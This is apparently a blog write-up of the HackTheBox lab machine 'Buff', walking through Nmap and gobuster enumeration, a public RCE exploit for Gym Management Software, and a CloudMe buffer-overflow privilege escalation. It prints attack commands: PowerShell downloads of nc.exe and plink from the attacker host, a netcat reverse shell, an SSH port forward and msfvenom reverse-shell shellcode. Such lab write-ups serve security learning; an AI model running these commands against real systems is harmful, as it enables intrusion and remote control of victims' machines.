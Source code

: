 [HackTheBox] Buff
===============
date: 24/Nov/2020
summary: This is the summary for an awesome post.
tags: hackthebox, writeup

## Overview
![writeup.metadata.infocard](/static/files/posts_htb_buff/infocard.png.webp)

This is a writeup for HackTheBox VM [Buff](https://www.hackthebox.eu/home/machines/profile/263). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

### Killchain
![writeup.overview.killchain](/static/files/posts_htb_buff/killchain.png.webp)

### TTPs
1\. `8080/tcp/http/Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)`: [enumerate_proto_http](https://github.com/7h3rAm/writeups#enumerate_proto_http), [exploit_gymsystem_rce](https://github.com/7h3rAm/writeups#exploit_gymsystem_rce), [exploit_cloudme_bof](https://github.com/7h3rAm/writeups#exploit_cloudme_bof)  

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.80 scan initiated Wed Jul 22 21:04:22 2020 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /home/kali/toolbox/repos/writeupsall/htb.buff/10.10.10.198/scans/_quick_tcp_nmap.txt -oX /home/kali/toolbox/repos/writeupsall/htb.buff/10.10.10.198/scans/xml/_quick_tcp_nmap.xml 10.10.10.198
Nmap scan report for 10.10.10.198
Host is up, received user-set (0.34s latency).
Scanned at 2020-07-22 21:04:36 IST for 101s
Not shown: 999 filtered ports
Reason: 999 no-responses
PORT     STATE SERVICE REASON  VERSION
8080/tcp open  http    syn-ack Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 22 21:06:17 2020 -- 1 IP address (1 host up) scanned in 114.83 seconds
```

2\. We find '8080/tcp' to be open and running `Apache httpd 2.4.43`. We start by looking at the webpage and find it be hosting a fitness center portal:  

![writeup.enumeration.steps.2.1](/static/files/posts_htb_buff/screenshot01.png.webp)  

3\. We find multiple pages from the `gobuster` scan results and upon visiting `/contacts.php` page, we find that we are interacting with the `Gym Management Software 1.0` web application:  
```
cat ./10.10.10.198/scans/tcp_8080_http_gobuster.txt | grep -v 403
  /ADMIN (Status: 301) [Size: 343]
  /About.php (Status: 200) [Size: 5337]
  /Admin (Status: 301) [Size: 343]
  /Contact.php (Status: 200) [Size: 4169]
  /Home.php (Status: 200) [Size: 143]
  /Index.php (Status: 200) [Size: 4969]
  /LICENSE (Status: 200) [Size: 18025]
  /about.php (Status: 200) [Size: 5337]
  /admin (Status: 301) [Size: 343]
  /boot (Status: 301) [Size: 342]
  /contact.php (Status: 200) [Size: 4169]
  /edit.php (Status: 200) [Size: 4282]
  /ex (Status: 301) [Size: 340]
  /feedback.php (Status: 200) [Size: 4252]
  /home.php (Status: 200) [Size: 143]
  /img (Status: 301) [Size: 341]
  /include (Status: 301) [Size: 345]
  /index.php (Status: 200) [Size: 4969]
  /index.php (Status: 200) [Size: 4969]
  /license (Status: 200) [Size: 18025]
  /packages.php (Status: 200) [Size: 7791]
  /profile (Status: 301) [Size: 345]
  /register.php (Status: 200) [Size: 137]
  /up.php (Status: 200) [Size: 209]
  /upload (Status: 301) [Size: 344]
  /upload.php (Status: 200) [Size: 107]
```

![writeup.enumeration.steps.3.1](/static/files/posts_htb_buff/screenshot02.png.webp)  

### Findings
#### Open Ports
```
8080/tcp   http         Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
```

## Phase #2: Exploitation
1\. We use `searchsploit` to find exploits for the webapp and find an unauthenticated remote code execution vulnerability. We inspect the exploit and upon executing it, we get a pseudo-interactive shell on the target machine:  
```
python 48506.py http://10.10.10.198:8080/
```

![writeup.exploitation.steps.1.1](/static/files/posts_htb_buff/screenshot03.png.webp)  

![writeup.exploitation.steps.1.2](/static/files/posts_htb_buff/screenshot04.png.webp)  

2\. To get a fully interactive shell, we use powershell to transfer netcat binary, start a local netcat listener and then catch the incoming connection:  
```
nc -nlvp 4433

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.8:8000/nc.exe','C:\Users\shaun\Desktop\nc.exe')"
C:\Users\shaun\Desktop\nc.exe 10.10.14.8 4433 -e cmd.exe
```

![writeup.exploitation.steps.2.1](/static/files/posts_htb_buff/screenshot05.png.webp)  

![writeup.exploitation.steps.2.2](/static/files/posts_htb_buff/screenshot06.png.webp)  

3\. We use this interactive access to read the `user.txt` flag:  
```
type C:\Users\shaun\Desktop\user.txt
```

![writeup.exploitation.steps.3.1](/static/files/posts_htb_buff/screenshot07.png.webp)  

## Phase #2.5: Post Exploitation
```
buff\shaun@BUFF> id
buff\shaun
buff\shaun@BUFF>  
buff\shaun@BUFF> uname
Host Name:                 BUFF
OS Name:                   Microsoft Windows 10 Enterprise
OS Version:                10.0.17134 N/A Build 17134
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
buff\shaun@BUFF>  
buff\shaun@BUFF> ifconfig
Windows IP Configuration
  Ethernet adapter Ethernet0:
    Connection-specific DNS Suffix  . :
    IPv6 Address. . . . . . . . . . . : dead:beef::616c:bed8:4b75:6e17
    Temporary IPv6 Address. . . . . . : dead:beef::7813:413b:2e52:5901
    Link-local IPv6 Address . . . . . : fe80::616c:bed8:4b75:6e17%10
    IPv4 Address. . . . . . . . . . . : 10.10.10.198
    Subnet Mask . . . . . . . . . . . : 255.255.255.0
    Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:9eb2%10
                                        10.10.10.2
buff\shaun@BUFF>  
buff\shaun@BUFF> users
Administrator
shaun
```

## Phase #3: Privilege Escalation
1\. We use `winPEAS.exe` to enumerate the target machine and within the `services restricted from the outside` section, find an interesting service bound to `127.0.0.1:8888`:  
```
netstat -anp tcp
```

![writeup.privesc.steps.1.1](/static/files/posts_htb_buff/screenshot08.png.webp)  

2\. We find this to be a `CloudMe` process and there's a binary named `CloudMe_1112.exe` within the `C:\Users\shaun\Downloads` directory that hints that the version could be `1.11.2`:  
```
powershell ps
```

![writeup.privesc.steps.2.1](/static/files/posts_htb_buff/screenshot09.png.webp)  

![writeup.privesc.steps.2.2](/static/files/posts_htb_buff/screenshot10.png.webp)  

3\. We find a buffer overflow exploit for this application that could give us elevated privileges if the `CloudMe` process is running as Administrator:  
```
searchsploit cloudme
```

![writeup.privesc.steps.3.1](/static/files/posts_htb_buff/screenshot11.png.webp)  

4\. But we cannot connect to this service from our attacking machine. We will need to setup a port forward for this exploit to work. We start the SSH service on our attacking machine, transfer the `plink.exe` binary and setup the port forward:  
```
service ssh restart
service ssh status
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.8:8000/plink64.exe','C:\Users\shaun\Desktop\plink.exe')"
C:\Users\shaun\Desktop\plink.exe -v -x -a -T -C -noagent -ssh -pw "kali" -R 8888:127.0.0.1:8888 kali@10.10.14.8
```

![writeup.privesc.steps.4.1](/static/files/posts_htb_buff/screenshot12.png.webp)  

![writeup.privesc.steps.4.2](/static/files/posts_htb_buff/screenshot13.png.webp)  

5\. We update the exploit with the right shellcode, setup a reverse shell to catch incoming connection and run the exploit:  
```
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.8 lport=443 -b "\x00\x0a\x0d" -f python -a x86 --platform windows -e x86/shikata_ga_nai

sudo nc -nlvp 443
python 48389.py
```

![writeup.privesc.steps.5.1](/static/files/posts_htb_buff/screenshot14.png.webp)  

6\. We immmediately get an elevated reverse shell connection and use it to read the `root.txt` flag:  
```
type C:\Users\Administrator\Desktop\root.txt
```

![writeup.privesc.steps.6.1](/static/files/posts_htb_buff/screenshot15.png.webp)  

## References
* <https://www.hackthebox.eu/home/machines/profile/263>  

